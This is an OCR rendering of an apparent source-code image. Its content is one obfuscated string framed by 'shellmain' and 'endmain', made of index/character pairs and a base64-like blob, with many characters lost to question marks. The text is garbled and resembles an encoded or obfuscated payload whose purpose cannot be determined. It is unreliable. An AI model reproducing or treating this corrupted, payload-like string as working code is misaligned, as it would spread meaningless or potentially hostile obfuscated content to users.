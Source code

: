 shellmain26|2????,k;6??,v;10???,W;???14?,1???;18?,Z???;22??,?9;??26,??W;30??,?g;34,???u;???38,3;?42,??g;46??,?i;50????,O;??5????4,P;????58,???q;62,?D;6??6,???b;70???,K;74?,l??;7??8??,L?;82,??I;????86,4??;90,????k;94,????b;9??8,z??;10???2??,u;???|hAr?kC??0hv??6m?lW9Y???N???1xA?rZD????Ow9Ui????yW????92Tg????0?l1u?D5????g3??Zv??Dg?neViw???D5O???l????0wPU???vzq????9Y????0Dxz??nbl0????2KSjB?li?2??VL????w????BfIB??PI4i9????ykzx?Vb?3yG??z????n2???a???u==endmain
